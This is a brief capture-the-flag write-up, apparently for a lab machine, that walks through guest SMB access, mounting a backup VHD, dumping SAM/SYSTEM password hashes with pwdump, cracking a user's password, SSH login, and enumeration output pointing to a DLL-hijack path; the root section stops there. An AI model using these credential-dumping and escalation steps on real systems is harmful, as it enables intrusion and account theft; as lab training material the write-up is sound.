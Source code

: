 ![](./logo.png)

Scanning the box gives us a `smb` share with guest access.

Running:

```
smbclient.py guest@10.10.10.134
```

There is a `Backups` share that allows us access to a `.vhd` file.

I'm going to investigate with the tool `guestfs`. This allows me to mount the `.vhd` file locally and investigate.

This was okay to mount the small `.vhd` file, but downloading the ~5GB is an issue. In end downloading the large VHD was the option taken.

On the VHD file is the `SAM` and `SYSTEM` hives. These can be downloaded and the hashes of the users can be extracted.

Running `pwdump.py` gives us:

```
$ ./pwdump.py SYSTEM SAM

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

Cracking the hash for L4mpje gives use the password:

```
L4mpje
bureaulampje
```

This lets us login via `ssh` and grab the `user.txt`!

# ROOT

Found a non-standard tool called `mRemoteNG`


```
ModifiablePath    : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps
IdentityReference : BASTION\L4mpje
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'
```